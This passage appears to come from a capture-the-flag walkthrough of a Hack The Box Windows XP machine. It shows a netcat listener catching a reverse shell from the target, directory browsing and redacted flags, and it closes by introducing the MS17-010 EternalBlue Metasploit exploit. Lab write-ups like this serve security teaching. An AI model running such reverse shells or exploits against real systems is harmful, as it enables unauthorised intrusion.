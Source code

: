 After running our exploit, a reverse shell will be spawned in our ```netcat``` listener

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 9876                                   
listening on [any] 9876 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.4] 1029
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd
cd
C:\WINDOWS\system32

C:\WINDOWS\system32>cd ..
cd ..

C:\WINDOWS>cd ..
cd ..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\

15/09/2021  05:03 ��            73.802 6EIB4H.exe
16/03/2017  08:30 ��                 0 AUTOEXEC.BAT
16/03/2017  08:30 ��                 0 CONFIG.SYS
16/03/2017  09:07 ��    <DIR>          Documents and Settings
16/03/2017  08:33 ��    <DIR>          Program Files
16/03/2017  08:33 ��    <DIR>          WINDOWS
               3 File(s)         73.802 bytes
               3 Dir(s)   6.472.749.056 bytes free

...

C:\Documents and Settings\john\Desktop>more user.txt
more user.txt
<---USER FLAG--->

C:\Documents and Settings\Administrator\Desktop>more root.txt
more root.txt
<---ROOT FLAG--->

```

### MS17-010 metasploit exploit

Lets try using our ```metasploit``` exploit for ```smb-ms17-010```,

It is famously known as ```Eternal Blue```
